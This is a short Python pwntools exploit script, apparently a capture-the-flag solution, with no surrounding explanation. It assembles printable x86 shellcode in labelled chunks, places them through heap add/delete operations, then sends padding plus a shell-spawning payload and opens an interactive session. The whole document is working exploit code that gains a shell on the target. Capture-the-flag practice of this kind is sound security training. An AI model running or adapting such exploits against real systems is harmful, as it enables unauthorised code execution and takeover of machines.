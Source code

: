```python


### PYjzZu9
part1 = '''
push eax
pop ecx
push 0x7a
pop edx
'''
part1 = asm(part1) + b"\x75\x39"
add(-27, part1)
chunk_pad(3)

### SXH0AAu8
part2 = '''
push ebx
pop eax
dec eax
xor BYTE PTR [ecx+0x41], al
'''
part2 = asm(part2) + b"\x75\x38"
add(0, part2)
chunk_pad(3)

### 490ABSu8
part3 = '''
xor al, 0x39
xor BYTE PTR [ecx+0x42], al
push ebx
'''
part3 = asm(part3) + b"\x75\x38"
add(0, part3)
chunk_pad(3)

### Xj3X40u9
part4 = '''
pop eax
push 0x33
pop eax
xor al, 0x30
'''
part4 = asm(part4) + b"\x75\x39"
add(1, part4)
chunk_pad(3)

### 02F
part5 = b"\x30\x32\x46"
add(2, part5)

#gdb.attach(io,"b*0x080488ea\nc\n")
delete(1)

## write shellcode to run next
payload = "a" * 0x43
payload += asm(shellcraft.sh())
io.sendline(payload)

io.interactive()

```
